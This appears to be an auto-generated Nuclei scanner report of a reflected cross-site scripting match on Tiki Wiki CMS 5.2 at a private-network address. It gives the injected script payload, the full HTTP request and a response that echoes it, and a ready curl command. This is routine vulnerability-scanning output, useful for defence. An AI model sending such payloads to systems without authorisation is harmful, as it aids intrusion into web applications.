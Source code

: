 ### Tiki Wiki CMS Groupware 5.2 Reflected Cross-site Scripting (tikiwiki-reflected-xss) found on http://192.168.198.179:8080/
---
**Details**: **tikiwiki-reflected-xss**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/tiki-5.2/tiki-edit_wiki_section.php?type=%22%3E%3Cscript%3Ealert(31337)%3C/script%3E

**Timestamp**: Wed Jun 8 20:22:20 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Tiki Wiki CMS Groupware 5.2 Reflected Cross-site Scripting |
| Authors | madrobot |
| Tags | xss, tikiwiki |
| Severity | medium |

**Request**
```http
GET /tiki-5.2/tiki-edit_wiki_section.php?type=%22%3E%3Cscript%3Ealert(31337)%3C/script%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 214
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/tiki-5.2/tiki-edit_wiki_section.php?type="><script>alert(31337)</script></B> was not found.</BODY></HTML>
```


**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36' 'http://192.168.198.179:8080/tiki-5.2/tiki-edit_wiki_section.php?type=%22%3E%3Cscript%3Ealert(31337)%3C/script%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)